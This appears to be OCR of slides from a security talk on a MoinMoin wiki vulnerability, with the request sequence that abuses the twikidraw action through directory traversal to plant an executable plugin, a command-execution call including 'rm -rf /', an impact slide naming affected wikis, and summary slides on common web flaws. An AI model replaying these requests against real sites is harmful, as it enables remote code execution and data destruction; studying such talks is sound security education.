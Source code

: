 
* GET /?action=twikidraw&do=modify&target=image.tar
* => Response: file_auth_ticket
    * e.g. fe3321bcda

then

* POST /?action=twikidraw&do=save&ticket=file_auth_ticket
* &target=image.tar
---

* GET /?action=twikidraw&do=modify
* &target=../../../plugin/action/moinexec.py

then

* POST /?action=twikidraw&do=save&ticket=file_auth_ticket
* &target=../../../plugin/action/moinexec.py

---

GET /?action=moinexec&c=**whatever**

---

GET /?action=moinexec&c=rm%20-rf%20/

---

# Impact

* wiki.python.org & wiki.debian.org
* polyglot file + dir traversal =>
    * remote code execution

---

## Summary

* Security misconfiguration (default password)
---

## Summary

* Security misconfiguration (default password)
* Cross-site request forgery (GET to delete)
---

## Summary

* Security misconfiguration (default password)
* Cross-site request forgery (GET to delete)
* Cross-site scripting (TweetDeck)
---
